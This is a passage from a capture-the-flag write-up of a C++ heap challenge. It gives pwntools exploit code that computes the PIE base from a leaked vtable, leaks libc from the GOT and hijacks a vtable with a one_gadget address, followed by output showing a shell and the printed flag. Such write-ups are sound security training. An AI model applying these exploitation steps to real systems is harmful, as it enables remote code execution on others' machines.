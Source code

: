 The pointer leaked is either `Food`'s vtable or `Bamboo`'s vtable, depending on what `food[idx]` was.

![](/assets/image-20210711113202397.png)

I'll use that information to calculate the PIE base:

```python
def checkWhich(idx: int) -> str:
    '''figure out if foods[idx] was a Bamboo or a Food.
    Destroys the current `favorite`.'''
    fav(idx)
    Eat()
    flush()
    return 'bamboo' if b'crunch' in r.recvline() else b'food'
context.binary.address = pie_leak - (0x2e7d78 if checkWhich(1) == 'bamboo' else 0x2e7d50)
```

The next part is almost robotic: leaking libc from the GOT.

```python
context.libc = context.libc_database.libc_find({f:leak(context.binary.got[f]) for f in ['malloc', 'free']})
```

Finally, I just need to set `favorites->_vtable = &one_gadget` to win. I flood the heap with copies of `one_gadget` and leak out its position accordingly to pop a shell:

```python
og = context.libc.select_gadget(1) # (2) doesn't work; memset() in chall.cc was optimised out in the actual binary...
alloc(2, pack(og)*0x1ff) # flood the heap with the one_gadget to make finding heap offset easier
fakeFood(pack(heapbase+next(i for i in range(0,0x5000,0x800) if leak(heapbase+i) == og)))
flush()
Eat()
r.interactive()
```

That's the end. Fun challenge.

```python
[+] Opening connection to mc.ax on port 31707: Done
[*] heap: 0x559d3b513000
[*] PIE: 0x559d39fd3000
[*] found libc! id: libc6_2.27-3ubuntu1.4_amd64
[*] one_gadget: 0x7f8d39985432
[*] Switching to interactive mode
idx:
name:
choice:
$ ls
flag.txt
run
$ cat flag.txt
flag{hijacking_vtables_like_321_4243f93}
```
